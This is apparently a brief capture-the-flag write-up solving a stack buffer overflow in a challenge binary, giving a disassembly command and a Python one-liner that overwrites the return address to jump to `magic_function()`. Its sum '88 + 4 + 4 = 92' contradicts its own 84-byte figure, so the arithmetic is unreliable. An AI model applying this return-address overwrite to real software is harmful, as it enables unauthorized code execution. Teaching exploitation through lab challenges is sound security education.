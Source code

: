 # Writeup

- First use this command to scan the exec:
> ```Bash
> objdump -M intel -d break_this
> ```
- `magic_function()` is saved at `0x08048596`
- From the first 4 lines from `read_buffer()` we get that: `ebp` and `edi` get pushed on stack then the stack is extended by `0x54` = `84`
- So we must print `88 + 4 + 4 = 92` dummy characters `A` and then the address of `magic_function()` in little-endian encoding
- I will set `n` to a big enough value: `128`

> ``` Bash
> python -c 'print "128\n" + "A"*92 + "\x96\x85\x04\x08"' > payload
> ```